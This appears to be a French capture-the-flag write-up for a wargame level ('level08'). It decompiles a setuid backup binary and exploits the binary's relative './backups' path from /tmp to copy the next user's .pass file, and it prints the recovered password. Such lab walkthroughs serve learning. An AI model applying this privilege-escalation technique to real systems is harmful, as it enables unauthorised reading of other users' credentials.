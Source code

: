 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1008(level08) gid=1008(level08) groups=1008(level08),100(users)
/home/users/level08
total 28
dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
```

Je trouve un binaire `level08`, que je tente d'éxecuter ainsi qu'un dossier `backups`:

```bash
$ cd backups/
$ ls -la
total 0
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
$ cat .log
$
$ cd ..
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
$ ./level08 /backups/.log
ERROR: Failed to open /backups/.log
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=fb42ad07-6308-45df-b8f7-fe3953c56ac1#BinaryNinja=305) en recoupant avec les compilateurs qui marchent et l'ASM :

```c
void log_wrapper(FILE *file, char *msg, char *filename)
{
    char buf[264];

    strcpy(buf, msg);
    snprintf(&buf[strlen(buf)], 254 - strlen(buf), filename);

    buf[strcspn(buf, "\n")] = 0;

    fprintf(file, "LOG: %s\n", buf);
}

int main(int ac, char **av)
{
    FILE *log;
    FILE *file;
    int fd;
    char c;
    char path[104];

    c = -1;
    fd = -1;

    if (ac != 2) 
    {
        printf("Usage: %s filename\n", *av);
    }

    log = fopen("./backups/.log", "w");
    if (!log)
    {
        printf("ERROR: Failed to open %s\n", "./backups/.log");
        exit(1);
    }

    log_wrapper(log, "Starting back up: ", av[1]);

    file = fopen(av[1], "r");
    if (!file)
    {
        printf("ERROR: Failed to open %s\n", av[1]);
        exit(1);
    }

    strcpy(path, "./backups/");
    strncat(path, av[1], 99 - strlen(path));
    fd = open(path, 193, 432LL);
    if (fd < 0)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", av[1]);
        exit(1);
    }

    while ((c = fgetc(file)) != -1)
        write(fd, &c, 1uLL);

    log_wrapper(log, "Finished back up ", argv[1]);
    fclose(file);
    close(fd);
    return 0;
}
```

Comme dans le précédent niveau, je n'observe pas spécialement de fonction vulnérable, cependant, en analysant ce que fais le programme je note qu'il :

- Prend en argument le nom d'un fichier
- Le lit
- L'écrit dans un fichier dans le dossier `./backups` (celui où je me trouve donc, puisque path relatif)
- Si le fichier n'existe pas dans le dossier `./backups`, le backup échoue
- Si le fichier existe, le backup réussis et le fichier dans `./backups` et donc actualisé par le binaire

Naturellement, j'essaye donc de créer un fichier `.pass` dans `backups` :

```bash
$ cd backups
$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

Or, je n'ai pas les droits. Cependant, je note que le dossier backups utilisé est relatif à l'endroit où le binaire est exécuté, et j'ai les droits d'écrire dans `/tmp` dans la VM, facile :

```bash
$ cd /tmp
$ mkdir -p ./backups/home/users/level09/
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```


